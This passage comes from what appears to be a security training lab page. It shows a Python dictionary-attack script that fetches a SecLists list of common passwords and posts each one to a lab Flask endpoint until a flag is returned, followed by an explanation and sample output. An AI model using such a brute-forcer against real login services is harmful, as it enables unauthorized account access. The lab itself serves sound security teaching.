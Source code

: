 ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
</code></pre>
<p>The Python script orchestrates the dictionary attack. It performs the following steps:</p>
<ol>
<li>
<code>Downloads the Wordlist</code>: First, the script fetches a wordlist of 500 commonly used (and therefore weak) passwords from SecLists using the <code>requests</code> library.</li>
<li>
<code>Iterates and Submits Passwords</code>: It then iterates through each password in the downloaded wordlist. For each password, it sends a POST request to the Flask application's <code>/dictionary</code> endpoint, including the password in the request's form data.</li>
<li>
<code>Analyzes Responses</code>: The script checks the response status code after each request. If it's 200 (OK), it examines the response content further. If the response contains the "flag" key, it signifies a successful login. The script then prints the discovered password and the captured flag.</li>
<li>
<code>Continues or Terminates</code>: If the response doesn't indicate success, the script proceeds to the next password in the wordlist. This process continues until the correct password is found or the entire wordlist is exhausted.</li>
</ol>
<pre><code class="language-shell-session">[!bash!]$ python3 dictionary-solver.py

...
Attempted password: turtle
Attempted password: tiffany
Attempted password: golf
Attempted password: bear
Attempted password: tiger
Correct password found: ...
Flag: HTB{...}
</code></pre>
<div class="mb-5 pwnbox-select-card"></div>
<div id="screen" style="height: 600px; border: 1px solid;">
<div class="screenPlaceholder">
<div class="instanceLoading" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Instance is starting...</div>